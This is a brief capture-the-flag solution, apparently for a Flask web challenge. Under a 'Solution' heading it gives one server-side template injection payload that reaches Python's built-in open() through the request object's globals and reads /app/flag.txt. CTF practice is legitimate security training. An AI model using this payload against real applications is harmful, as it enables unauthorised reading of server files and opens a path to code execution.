 # Solution

`{{ request.__class__._load_form_data.__globals__.__builtins__.open("/app/flag.txt").read() }}`